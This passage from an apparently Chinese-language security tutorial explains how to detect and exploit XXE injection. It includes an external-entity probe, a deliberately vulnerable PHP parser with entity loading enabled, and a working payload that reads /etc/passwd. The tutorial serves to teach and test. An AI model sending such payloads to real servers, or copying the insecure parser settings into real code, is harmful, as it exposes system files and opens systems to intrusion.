 如果页面输出了my name is qiqi，说明xml文件可以被解析

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpocmgmjmqj30xy03f74q.jpg)

**第二步：**检测服务器是否支持DTD引用外部实体：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "http://localhost/index.html">  
%name;  
]>
```

可通过查看服务器上的日志来判断

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpxhccu5otj30i402pq3i.jpg)

如果支持引用外部实体，那么很有可能是存在XXE漏洞的

### XXE漏洞利用

xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等

### 测试代码

```Php
<?php
libxml_disable_entity_loader (false);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();

$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);

$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;
echo 'you are ' . $user;  
?>
```

`simplexml_load_string`函数无法使用（和php版本并无关系，而是和编译时的libxml库版本有关）

### 漏洞测试

#### 有回显，直接读取文件：

Payload:

使用外部实体来加载本地文件

```xml
<?xml version="1.0" ?> <!DOCTYPE creds [
<!ELEMENT user ANY >
<!ELEMENT pass ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
<user>&xxe;</user>
<pass>test</pass>
</creds>
```

